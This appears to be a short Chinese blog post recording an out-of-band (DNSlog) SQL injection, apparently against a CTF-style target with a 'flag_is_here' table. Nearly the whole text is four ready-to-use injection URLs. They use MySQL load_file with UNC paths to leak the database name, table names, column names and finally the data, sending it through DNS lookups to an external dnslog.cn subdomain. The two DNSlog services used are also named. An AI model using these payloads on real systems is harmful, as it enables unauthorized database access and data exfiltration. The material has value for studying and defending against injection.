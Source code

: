 ```yaml
---
title: 记一次dnslog注入
tags: sql注入
categories: 技术分享
abbrlink: 9437e8fc
date: 2019-10-12 17:09:36
updated: 2019-10-12 17:09:36
---
```


DNSlog辅助平台

http://ceye.io 需注册

http://www.dnslog.cn/ 无需注册

#### 查库

```
http://www/index.php?id=1 and if((select load_file(concat('\\\\',(select database()),'.aksgyv.dnslog.cn\\abc'))),0,1)
```



#### 查表

```
http://www/index.php?id=1 and if((select load_file(concat('\\\\',(select group_concat(table_name) from information_schema.tables where table_schema='dnslog'),'.aksgyv.dnslog.cn\\abc'))),0,1)
```



#### 查列

```
http://www/index.php?id=1 and if((select load_file(concat('\\\\',(select group_concat(column_name)from information_schema.columns where table_name='flag_is_here'),'.aksgyv.dnslog.cn\\abc'))),0,1)
```



#### 查数据

```
http://www./index.php?id=1 and if((select load_file(concat('\\\\',(select flag from flag_is_here),'.aksgyv.dnslog.cn\\abc'))),0,1)
```


